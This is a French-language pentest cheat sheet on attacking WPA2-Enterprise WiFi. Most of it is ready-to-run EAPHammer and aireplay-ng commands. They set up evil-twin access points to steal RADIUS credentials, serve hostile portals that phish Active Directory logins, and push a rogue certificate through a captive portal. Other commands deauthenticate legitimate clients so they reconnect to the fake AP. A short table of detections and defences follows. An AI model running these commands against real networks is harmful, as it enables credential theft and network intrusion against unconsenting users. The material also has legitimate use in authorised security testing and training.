

# Attaques WiFi — Enterprise (EAP)

> [!info] **En 1 phrase**
> En **WPA2-Enterprise** (802.1X/EAP), il n'y a pas de passphrase à cracker — l'utilisateur s'authentifie par
> **credentials** (login/mot de passe, certificats) vers un serveur **RADIUS**. L'attaque = **evil twin**
> (faux AP) avec **EAPHammer** pour voler les credentials RADIUS, les **hostile portals** pour des creds AD,
> ou des **captive portals** (certificat + payload).

---

## Concept



> [!info] **Différence clé avec le PSK**
> - PSK : on cracke une passphrase partagée.
> - Enterprise : on **phish les credentials** de l'utilisateur (login/mot de passe, souvent AD).
> - L'utilisateur **n'a aucun moyen simple de vérifier l'identité du serveur** si le certificat n'est pas vérifié.

---

## EAPHammer — installation

```bash
git clone https://github.com/s0lst1c3/eaphammer.git
cd eaphammer
./kali-setup

# Générer les certificats (signature du faux AP)
./eaphammer --cert-wizard
```

---

## Vol de credentials RADIUS

```bash
# Attaque basique
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds

# Avec BSSID/ESSID précis (usurper le vrai réseau)
./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid Example --channel 2 \
            --interface wlan0 --auth wpa-eap --creds

# Déconnecter les clients légitimes → ils se reconnectent au faux AP
aireplay-ng -0 0 -a MAC_ADDR_AP -c MAC_ADDR_TARGET wlan0mon
```

---

## Hostile Portal (creds Active Directory)

> Voler des credentials **AD** (page de login Microsoft/Corporate).

```bash
# Hostile portal EAP
./eaphammer --interface wlan0 --bssid 1C:7E:E5:97:79:B1 --essid EvilC0rp \
            --channel 6 --auth wpa-eap --hostile-portal

# Variante réseau ouvert (pas de EAP, page de login directe)
./eaphammer --interface wlan0 --essid TotallyLegit --hw-mode n \
            --channel 36 --auth open --hostile-portal
```

---

## Captive Portal

```bash
# Captive portal simple (page de consentement)
./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid HappyMealz --channel 149 \
            --interface wlan0 --captive-portal

# Captive portal avec prompt de certificat (inoculer un cert malveillant)
./eaphammer --captive-portal -e guestnet -i wlan0 \
            --portal-template rogue-cert-prompt \
            --lhost 10.0.0.10 --payload secure.crt
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Valider le certificat serveur** | 802.1X + vérification stricte du cert RADIUS (casse EAPHammer) |
| **EAP-TLS** (certificats clients) | Beaucoup plus dur à phisher que EAP-MSCHAPv2 / PEAP |
| **Radius proxy / AAA monitoring** | Détecte les authentifications vers un mauvais serveur |
| **WIDS** | Repère les AP clonés (même ESSID, autre BSSID/signature) |
| **Sensibilisation** | Les utilisateurs ne doivent pas ignorer les avertissements de certificat |

## Tips & Pièges

- Le **certificat** du faux AP est auto-signé → il faut un template convaincant (ou rogue-cert-prompt).
- **EAP-MSCHAPv2/PEAP** = le plus courant et le plus attaquable ; **EAP-TLS** beaucoup plus robuste.
- La **deauth** (`aireplay-ng -0 0`) précipite la reconnexion des clients vers le faux AP.
- On vole des **credentials**, pas une clé : après capture, on peut se connecter au vrai réseau (ou le pivoter en AD).

> [!info] **Sources**
> GitHub : [swisskyrepo/HardwareAllTheThings – `docs/protocols/wifi/wifi-corporate.md`](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/protocols/wifi/wifi-corporate.md) · Wiki EAPHammer (RADIUS / hostile portal / captive portal)

**Liens :** [[Attaques WiFi (WPA2 et PMKID)| Hub WiFi]] · [[Attaques WiFi - Rogue AP| Rogue AP]] · [[Attaques WiFi - Préparation & Basiques| Préparation]] · [[Password Spraying| Password Spraying]] · [[Bibliothèque technique| Index]]
